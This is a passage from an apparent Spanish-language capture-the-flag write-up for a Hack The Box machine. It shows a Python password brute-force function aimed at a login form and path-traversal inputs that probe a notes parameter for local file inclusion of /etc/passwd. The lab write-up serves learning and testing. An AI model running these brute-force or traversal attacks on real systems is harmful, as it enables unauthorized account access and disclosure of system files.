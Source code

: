 ```python
def bruteForce():
 
    s = requests.Session()

    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'password': password.rstrip(),
            'login': "Log+In",
            'proc_login': "true"
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data, verify=False)
        
        if 'Incorrect password.' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
```

### Analizamos el panel de administracion del puerto 80 {-}

Aqui vemos un link llamado Notes, pinchamos y se ve una nota. 
Nos llama la atencion la url 
```bash
 10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt 
```

Intentamos ver si es vulnerable a un **LFI**

```bash
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd%00
```

Aqui nos pone la pagina un mensaje 
```bash
 No notes selected 
```
. Probamos mas cosas.

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes
10.10.10.43/department/manage.php?notes=files/ninevehNote
```
